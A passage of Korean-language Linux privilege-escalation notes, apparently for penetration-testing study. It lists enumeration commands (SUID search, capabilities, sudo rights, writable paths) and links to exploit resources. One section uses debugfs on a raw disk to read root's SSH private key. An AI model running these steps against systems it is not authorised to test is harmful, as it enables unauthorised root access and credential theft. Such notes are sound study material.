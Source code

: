 ```bash
# OS정보 확인
cat /etc/issue

cat /etc/os-release

uname -a
```
```bash
# 프로세스 및 네트워크 상태 확인
ps aux

ifconfig

routel

ss -anp

cat /etc/iptables/rules.v4
- IPv4 iptables 방화벽 규칙 확인.
```
```bash
ls -al /etc/cron*
sudo crontab -l
```
```bash
# 패키지 목록 조회
dpkg -l
```
```bash
find / -writable -type d 2>/dev/null

find /etc -writable -type f 2>/dev/null

find /usr -writable -type f 2>/dev/null

find /var -writable -type f 2>/dev/null
```
```bash
# 마운트 및 디스크 정보 조회
cat /etc/fstab
- 부팅 시 자동 마운트되는 파일 시스템 정보 확인.

mount

lsblk
- 블록 디바이스(디스크, 파티션) 정보 출력.
```
```bash
# 커널 모듈 정보
lsmod
- 현재 로드된 커널 모듈 목록 표시.

/sbin/modinfo libata
- 특정 커널 모듈(`libata`)의 상세 정보 확인.
```
```bash
find / -perm -4000 -type f 2>/dev/null
```
```bash
/usr/sbin/getcap -r / 2>/dev/null
```
```bash
sudo -l
```
---
# Linux Exploit Suggester
- https://github.com/The-Z-Labs/linux-exploit-suggester
- 예전 버전 리눅스 취약점 발견에 용이
---

# disk group privilege escalation
- https://www.hackingarticles.in/disk-group-privilege-escalation/
- `disk` 그룹은 **로우 블록 디바이스**(예: `/dev/sda`, `/dev/nvme0n1p2`)에 접근할 수 있습니다.  
```bash
df -h
- 현재 마운트된 파일시스템의 디스크 사용량을 사람이 읽기 쉬운 형태로 출력합니다.
```
<img width="689" height="248" alt="image" src="https://github.com/user-attachments/assets/96e0cff6-b9f2-4624-9c36-417a71ddac0c" />

```bash
debugfs /dev/sda3
- 파일시스템의 내부 구조를 조작하거나 디버깅할 수 있는 저수준 파일시스템 디버거 실행

mkdir test
- readonly로 설정되어 있으면 아래 코드 실행

cat /root/.ssh/id_rsa
```
# sudo group
```bash
sudo su
```
---
# rpc.py
- https://github.com/abersheeran/rpc.py
- https://www.exploit-db.com/exploits/50983
---
# makefile privesc
<img width="706" height="636" alt="image" src="https://github.com/user-attachments/assets/553e10b6-f5d7-4494-b3da-94c3167651d4" />

- https://medium.com/@adamforsythebartlett/makefile-privilege-escalation-oscp-62ea2c666d23
---
# system ctl
```bash
# nginx 서비스 유닛 내용 보기
systemctl cat nginx.service
```
